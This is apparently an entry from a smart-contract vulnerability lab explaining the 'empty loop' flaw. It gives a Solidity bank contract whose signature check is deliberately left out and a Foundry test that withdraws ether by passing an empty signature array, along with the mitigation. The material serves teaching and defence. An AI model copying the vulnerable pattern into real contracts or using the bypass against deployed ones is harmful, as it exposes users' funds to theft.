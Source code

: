 [empty-loop.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/empty-loop.sol)

# Empty loop

**Name:** Empty loop issue

**Description:** Due to insufficient validation, an attacker can simply pass an empty array to bypass the loop and signature verification.

**Mitigation:**

Check the number of signatures require(sigs.length > 0, "No signatures provided");

**REF:**

https://twitter.com/1nf0s3cpt/status/1673195574215213057

https://twitter.com/akshaysrivastv/status/1648310441058115592

https://dacian.me/exploiting-developer-assumptions#heading-unexpected-empty-inputs

**SimpleBank Contract:**

```jsx
contract SimpleBank {
    struct Signature {
        bytes32 hash;
        uint8 v;
        bytes32 r;
        bytes32 s;
    }

    function verifySignatures(Signature calldata sig) public {
        require(
            msg.sender == ecrecover(sig.hash, sig.v, sig.r, sig.s),
            "Invalid signature"
        );
    }

    function withdraw(Signature[] calldata sigs) public {
        // Mitigation: Check the number of signatures
        //require(sigs.length > 0, "No signatures provided");
        for (uint i = 0; i < sigs.length; i++) {
            Signature calldata signature = sigs[i];
            // Verify every signature and revert if any of them fails to verify.
            verifySignatures(signature);
        }
        payable(msg.sender).transfer(1 ether);
    }

    receive() external payable {}
}
```

***\*How to Test:\****

forge test --contracts src/test/**empty-loop.sol** -vvvv

```jsx
// Function to test a vulnerability related to signature validation
    function testVulnSignatureValidation() public {
        // Transfers 10 Ether to the SimpleBankContract
        payable(address(SimpleBankContract)).transfer(10 ether);
        
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);

        // Initializes an empty array of Signature structs from the SimpleBank contract
        SimpleBank.Signature[] memory sigs = new SimpleBank.Signature[](0); // empty input

        // Logs Alice's balance before the exploit
        console.log(
            "Before exploiting, Alice's ether balance",
            address(alice).balance
        );
        
        // Calls the withdraw function of the SimpleBank contract with the empty signatures array as the parameter
        // If the SimpleBank contract does not validate the signatures properly, this might result in unauthorized withdrawal
        SimpleBankContract.withdraw(sigs); 

        // Logs Alice's balance after the exploit
        console.log(
            "Afer exploiting, Alice's ether balance",
            address(alice).balance
        );
    }
```

**Red box: pass an empty array to bypassed validation.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0c65504d-c3f1-4ee1-b088-76f631784fb3%2FUntitled.png?table=block&id=aa602a09-ccf5-4348-87dd-8ae494f92e4c&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)